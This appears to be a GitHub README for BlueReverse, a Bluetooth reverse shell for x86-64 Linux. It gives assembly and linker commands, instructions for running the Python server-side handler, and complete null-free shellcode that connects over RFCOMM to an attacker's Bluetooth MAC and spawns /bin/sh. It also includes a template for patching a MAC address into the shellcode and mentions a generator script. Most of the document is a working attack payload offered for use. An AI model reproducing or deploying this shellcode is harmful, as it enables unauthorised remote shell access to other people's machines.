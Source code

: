 BlueReverse
===========

Bluetooth reverse shell currently for x86-64 Linux system.<br/>


Copyright (C) 2018  Neetx

BlueReverse is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, either version 3 of the License, or
(at your option) any later version.

BlueReverse is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU General Public License for more details.

You should have received a copy of the GNU General Public License
along with this program.  If not, see <http://www.gnu.org/licenses/>

### CONTACTS:
[Neetx](mailto:neetx@protonmail.com)

---

BlueReverse has been implemented as personal research and fun. I provide you .asm file (client side), .py 2.7 file (server side) and the shellcode.

You must fill .asm and .py with your mac and with your desired channel for the communication. Then:
```
nasm -f elf64 brev_shell.asm -o test.o
ld test.o -o test
```

Now you must start the server:
```
python bluereversehandler.py
```

And now you can launch test:
```
./test
```
You will get prompt on server side.
I tested the code with a rpi3 (server) and a Debian Stretch (client).

---

### Shellcode:

If you need shellcode you can use my tool ShellcodeExtractor (https://github.com/Neetx/Shellcode-Extractor)

```
objdump -D test.o | python shellcode_extractor.py
```

My output and lenght:
\x6a\x29\x58\x6a\x01\x5e\x6a\x1f\x5f\x6a\x03\x5a\x0f\x05\x97\x6a\x02\x66\x5e\xb0\x21\x0f\x05\x83\xee\x01\x79\xf7\x48\x31\xc9\xb1\x03\x51\x48\xb9\xe0\xff\x9f\xea\xa3\x14\xd8\x47\x48\xf7\xd1\x51\x54\x5e\xb2\x0a\x48\x31\xc0\xb0\x2a\x0f\x05\x48\x31\xd2\x52\x5e\x52\x48\xb9\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x51\x54\x5f\xb0\x3b\x0f\x05
82

You must do it by yourself because you have another MAC and maybe another channel.
If you don't use my tool or another tool/command you have to put your MAC manually after NOT operation, because of this in .asm:
```
mov rcx, ~0xXXXXXXXXXXXX001f		;mac + family(1f=31)
not rcx
```
(~ MAC + 00 (filler) + 1f (family))

00 is a nullbyte and to avoid it I use ~ , so the value after ~ is stored in the binary after a NOT operation and 00 become FF. Then i used "not rcx" to obtain the desired value.

Put your bluetooth MAC address here instead of \xXX\xXX\xXX\xXX\xXX\xXX, in little endian and after NOT operation:

\x6a\x29\x58\x6a\x01\x5e\x6a\x1f\x5f\x6a\x03\x5a\x0f\x05\x97\x6a\x02\x66\x5e\xb0\x21\x0f\x05\x83\xee\x01\x79\xf7\x48\x31\xc9\xb1\x03\x51\x48\xb9\xe0\xff\xXX\xXX\xXX\xXX\xXX\xXX\x48\xf7\xd1\x51\x54\x5e\xb2\x0a\x48\x31\xc0\xb0\x2a\x0f\x05\x48\x31\xd2\x52\x5e\x52\x48\xb9\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x51\x54\x5f\xb0\x3b\x0f\x05

### Shellcode Generator
Instead of the previous steps you can use my generator.py (python >= 3.7) to get the shellcode
```
python generator.py MAC CHANNEL
```

### Test Shellcode:

Put your shellcode in the shellcode_tester.c, compile it and test. 

---

### Screenshot

![alt text](screen.jpg "Example")

